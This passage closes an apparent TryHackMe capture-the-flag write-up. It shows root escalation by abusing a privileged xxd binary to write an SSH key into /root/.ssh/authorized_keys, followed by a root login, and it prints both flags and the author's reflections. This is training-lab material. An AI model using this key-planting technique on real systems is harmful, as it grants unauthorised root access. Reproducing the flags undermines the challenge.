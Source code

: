 - You can find the `xxd` exploit for writing to files on GTFObins. Use the same keys we created during previous escalation.

  ```
  comte@ip-10-10-76-30:~$ echo 'ssh-ed25519 [SNIP!] username@host' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys

  ssh -i id_ed25519 root@10.10.76.30                              
  Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
  
  [SNIP!]
  
  Last login: Sun May 11 19:44:19 2025 from 10.23.8.228
  root@ip-10-10-76-30:~# whoami
  root
  root@ip-10-10-76-30:~# id
  uid=0(root) gid=0(root) groups=0(root)
  ```

- Read the flag and say CHEEEEEEEEEEEEEEEEEEEEEEEESE!

  ```
  root@ip-10-10-76-30:~# cat root.txt 
        _                           _       _ _  __
    ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
   / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
  | (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
   \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|
  
  
  THM{dca75486094810807faf4b7b0a929b11e5e0167c}
  ```

- 🐭🐭🐭🐭🐭🐭🐭🐭🐭🐭🐭🧀🧀🧀🧀🧀🧀🧀🧀🧀🧀🧀🧀

---

## 🏁 Flags

- **User Flag**: `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`
- **Root Flag**: `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding my way to root.`

- What did I learn?
  `Few new skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
